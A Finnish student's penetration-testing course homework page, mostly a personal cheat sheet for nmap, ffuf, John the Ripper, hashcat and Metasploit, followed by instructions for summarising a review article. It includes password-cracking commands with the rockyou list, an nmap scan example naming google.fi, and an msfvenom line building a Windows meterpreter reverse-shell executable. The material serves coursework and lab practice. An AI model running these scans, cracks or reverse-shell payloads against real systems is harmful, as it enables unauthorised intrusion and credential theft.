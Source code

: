 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

## a) Oma Cheatsheet

# nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>




# fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/


    ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://127.0.0.2:8000/FUZZ # 

Selitetty:

/fuff : ajaa ffuf ohjelman
-w : mitä sanalistaa ohjelma käyttää
/usr/share/wordlists/wfuzz/general/common.txt : sanalistani sijainti
-u : määrittää kohteen
http:127.0.0.2:8000/FUZZ : fuzz sanaan ohjelma kokoeilee sanalistan sanat

# Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ , https://terokarvinen.com/2023/crack-file-password-with-john/

Työkalun asennus ja ympäristön valmistelu:

    sudo apt-get update
    sudo apt-get -y install git build-essential libssl-dev
    git clone --depth=1 https://github.com/openwall/john.git
    cd john/src/
    configure && make -s clean && make -sj4
    cd ../run/

Sanakirjojen lataaminen ja käyttäminen:

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

Hash-tyypin tunnistaminen ja valmistelu:

    john --format=raw-md5 --wordlist=rockyou.txt hashfile.txt

Zip-tiedostojen salasanojen murtaminen:

    zip2john tero.zip > tero.zip.hash
    john --wordlist=rockyou.txt tero.zip.hash

Erilaiset murtomenetelmät:

    john --single hashfile.txt
    john --incremental hashfile.txt
    john --wordlist=/path/to/wordlist.txt --format=raw-sha1 hashfile.txt

Tulosten tarkistaminen:

    john --show tero.zip.hash


    

# hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ , https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

luo/saa/pura:

    sudo apt-get update
    sudo apt-get -y install hashid hashcat wget
    mkdir hashed
    cd hashed

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

tunnista:

    hashid -m 6b1628b016dff46e6fa35684be6acc96

Murra salasana:

    hashcat -m 0 -a 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved.txt

Tarkista murrettu salasana:

    cat solved.txt
    hashcat -m 0 6b1628b016dff46e6fa35684be6acc96 rockyou.txt



# msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

    msfconsole
    use multi/handler/payload
    SET payload 
    SET LHOST 
    SET LPORT 
    run -j

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

    sessions -i 1

# sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.
"review" - yleensä katsausartikkeli nimessä on sana "review". Se pyrkii antamaan käsityksen alan tutkimuksesta juuri tällä hetkellä. Scholarlissa on myös nappi, jolla se yrittää näyttää vain review-artikkelit.
Tuoretta, jos ei löydy alle 2v, niin edes alle 5v.
1 <= jufo. Julkaistu arvostetussa vertaisarvioidussa lehdessä. Eli lehti löytyy Jufosta eli Julkaisufoorumin portaalista https://jfp.csc.fi/, ja sen taso on vähintään yksi.
Myös muualta kuin lehden kotisivulta ladattu kappale julkaistua artikkelia kelpaa, esim "final draft" sopii.
Ei yleistajuisia kirjoja tai lehtiartikkeleita: ei Mikrobitti, ei Tietotekiikan perusteet osa I, ei "Tiede 2000" -aikakauslehti
Älä maksa artikkeleista. Yleensä ilmainen latauslinkki löytyy Google Scholarlista oikealta. Haaga-Helian maksamat saa näkyviin Settings: Library Links: Haaga-Helia.
Englanninkielinen käyttöliittymä toimii paremmin https://scholar.google.com/ncr
Olennaisin sisältö tiivistelmään. Ei pelkkää metatekstiä tai artikkelin kuvailua:
Väärin: "Artikkeli kertoo uusista tuulista tietotekniikan parissa. Mukana on yllättävä havainto kiristyshaitakkeista"
Oikein: "Kiristyshaitakkeiden määrä kasvoi 30% vuoden 2023 aikana Foobarstanissa"
Suppeahko tiivistelmä ranskalaisilla viivoilla riittää
Kannattaa lisätä omat huomiot tai kysymykset mukaan. Merkitse selkeästi, mitkä ovat omaa pohdintaa.
Jos artikkeli on pitkä (yli 4 sivua), voit silmäillä sen lukemisen sijasta.

# c) Valmiina lipunryöstöön.
